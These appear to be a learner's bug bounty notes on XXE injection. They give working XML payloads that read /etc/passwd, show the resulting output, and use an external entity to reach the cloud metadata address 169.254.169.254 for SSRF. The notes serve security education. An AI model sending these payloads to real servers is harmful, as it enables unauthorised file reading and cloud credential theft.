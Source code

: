 # Bug Bounty Hunting & Web Security Testing

[20. XXE (XML External Entity) Injection](#20-xxe-xml-enternal-entity-injection)

## 20. XXE (XML External Entity) Injection

5th more common OWASP Top 10

### What is XML

- **Extensible Markup Language**
- Use: Store and transport data

```
<note>
  <to>Tove</to>
  <from>Jani</from>
  <heading>Reminder></heading>
  <body>Don't forget me this weekend!</body>
</note>
```

### Exploiting a Basic XXE Injection

Content-Type: application/xml

```
<?xml version="1.0" encoding="UTF-8"?>
  <stockCheck>
    <productId>4</productId>
    <storeId>1</storeId>
  </stockCheck>
```

Burp Suite -> Send to Repeater

Manipulate this XML markup to give us useful data

```
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
  </stockCheck>
```

Outcome:
```
root:x:0:0:root:/root:/bin/bash
deamon:x:1:1:deamon:/usr/sbin:/usr/sbin/nologin
peter:x:2001:2001::/home/peter:/bin/bash
```

### Discovering an SSRF Through a Blink XXE

Hacker -> XXE -> Vulnerable Website -> SSRF -> Server with Sensitive Data 169.254.169.254

```
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
  <stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
  </stockCheck>
```

Instead of specifying a file, we are specifying a remote server to communicate with and use that to gather information

1. Access internal resources
2. Discover blind / out-of-bound XXE

---


